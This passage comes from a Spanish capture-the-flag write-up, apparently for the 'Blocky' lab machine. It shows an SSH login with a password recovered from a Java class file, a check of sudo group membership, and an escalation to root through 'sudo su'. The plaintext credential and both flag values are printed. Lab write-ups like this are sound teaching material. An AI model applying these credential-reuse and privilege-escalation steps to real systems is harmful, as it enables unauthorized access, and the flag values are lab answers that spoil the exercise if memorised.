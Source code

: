 Con las credenciales descubiertas en el archivo BlockyCore.class, intenté acceder por SSH utilizando el usuario notch y la contraseña 8YsqfCTnvxAUeduzjNSXe22, lo que resultó en un acceso exitoso al sistema. Al ejecutar el comando id, confirmé que el usuario pertenece al grupo sudo, lo que indica que posee privilegios administrativos y permite escalar fácilmente a root mediante el uso de sudo.
```bash
❯ ssh notch@blocky.htb
notch@blocky.htb's password: 8YsqfCTnvxAUeduzjNSXe22
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

### Captura flag usuario
```bash
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
797d0a1d8eaab16c970b27eca284b0f5
```

### Captura flag root
Al verificar que el usuario notch pertenece al grupo sudo, intenté escalar privilegios utilizando sudo su con la misma contraseña descubierta previamente. El acceso fue exitoso, lo que me permitió obtener una shell como root. Finalmente.
```bash
notch@Blocky:~$ sudo su
[sudo] password for notch: 8YsqfCTnvxAUeduzjNSXe22
root@Blocky:/home/notch# cd /root
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt 
e50ad0fd099caff8aee2b99fb53c09ac
```
